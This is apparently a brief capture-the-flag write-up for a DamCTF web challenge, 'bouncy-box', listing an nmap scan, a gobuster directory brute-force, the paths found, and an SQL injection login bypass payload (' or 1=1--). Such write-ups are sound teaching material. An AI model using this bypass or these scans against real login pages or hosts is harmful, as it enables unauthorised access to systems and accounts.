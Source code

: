 # Task: web/bouncy-box

Description: This game is extremely fun. So fun that some people have been playing it for over 3 years!

Webaddress: bouncy-box.chals.damctf.xyz

## Tasks for solving

 - started a nmap scan `nmap -sV -sC -oN nmap/initial bouncy-box.chals.damctf.xyz`
 - started gobuster `gobuster dir -u https://bouncy-box.chals.damctf.xyz/ -w ~/Documents/Tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt | tee gobuster.out`

Found three directories:
 - /login
 - /flag
 - /scoreboard
 - /static

 Downloaded /static/game.js

 It seems to be a rabithole!

 You can login with SQL Injection

 Username: `' or 1=1--`
 Password: `' or 1=1--`

 